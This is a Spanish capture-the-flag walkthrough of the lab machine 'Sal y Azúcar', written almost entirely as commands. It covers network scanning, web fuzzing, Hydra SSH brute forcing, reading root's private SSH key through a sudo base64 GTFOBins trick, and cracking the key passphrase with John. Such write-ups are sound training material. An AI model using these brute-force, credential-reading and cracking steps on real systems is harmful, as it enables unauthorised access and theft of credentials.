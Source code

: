 # Sal y Azúcar

Maquinas que vamos a utilizar Kali Linux y Sal y azúcar [https://thehackerslabs.com/sal-y-azucar/](https://thehackerslabs.com/sal-y-azucar/)

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%20145.png)

**IP: 10.0.3.34**

```bash
nmap -p- -sS -sV -sC --open -min-rate=1000 -n -vvv -Pn 10.0.3.34
```

![image.png](./imagenes/image%20146.png)

- Miramos lo que corre atreves del puerto 80 en el navegador web
    
    ![image.png](./imagenes/image%20147.png)
    
    ![image.png](./imagenes/image%20148.png)
    
    No parece haber nada significativo
    
- Vamos a intentar un Fuzzinf web
    
    ```bash
    gobuster dir -u [http://10.0.3.34/](./imagenes/http://10.0.3.34/) -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,sh,html,txt
    ```
    
    ![image.png](./imagenes/image%20149.png)
    
    ![image.png](./imagenes/image%20150.png)
    

- No tenemos Ni usuario ni contraseña pero tenemos una pista de que la contraseña puede ser débil. Vamos ha hacer un ataque de fuerza bruta con Hydra al usuario y a la contraseña.
    
    ```bash
    hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://10.0.3.34
    ```
    
    ![image.png](./imagenes/image%20151.png)
    
    **login: info   password: qwerty**
    

- Accedemos por SSH con las credenciales optenidas.
    
    `ssh info@10.0.3.34` 
    
    `whoami`
    
    ![image.png](./imagenes/image%20152.png)
    

- Hacemos un listado de privilegios con **sudo -l**
    
    `sudo -l`
    
    ![image.png](./imagenes/image%20153.png)
    
- Utilizamos la web [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/) para encontrar vulnerabilidades.
    
    ![image.png](./imagenes/image%20154.png)
    
- Lo probamos
    
    `sudo /usr/bin/base64 /root/.ssh/id_rsa | base64 --decode`
    
    <aside>
    
    `sudo`: Ejecuta el comando con privilegios de administrador.
    
    `/usr/bin/base64 /root/.ssh/id_rsa`: Codifica el archivo `id_rsa` en Base64.
    
    `| base64 --decode`: Toma la salida codificada en Base64 y la decodifica nuevamente.
    
    </aside>
    
    ![image.png](./imagenes/image%20155.png)
    
    Copiamos el contenido del archivo **id_rsa y salimos el SSH**
    
- Nos creamos un archivo con las claves encriptadas de habíamos conseguido.
    
    `nano claves`
    
    ![image.png](./imagenes/image%20156.png)
    

- Usamos **John the Ripeer** para sacar la contraseña privada **a partir del fichero claves**.
    - Pasamos el archivo a un hash.
        
        ```bash
        ssh2john claves > key.hash  
        ```
        
        ![image.png](./imagenes/image%20157.png)
        
    - Usamos John para desencriptar el hash mediante un dicionario.
        
        ```bash
        john key.hash --wordlist /usr/share/wordlists/rockyou.txt
        ```
        
        ![image.png](./imagenes/image%20158.png)
        
        Ya tenemos la clave del usuario root : **honda1**
        

- Entramos en SSH como root.
    
    `sudo ssh [root@10.0.3.34](./imagenes/mailto:root@10.0.3.34) -i claves`
    
    ![image.png](./imagenes/image%20159.png)
   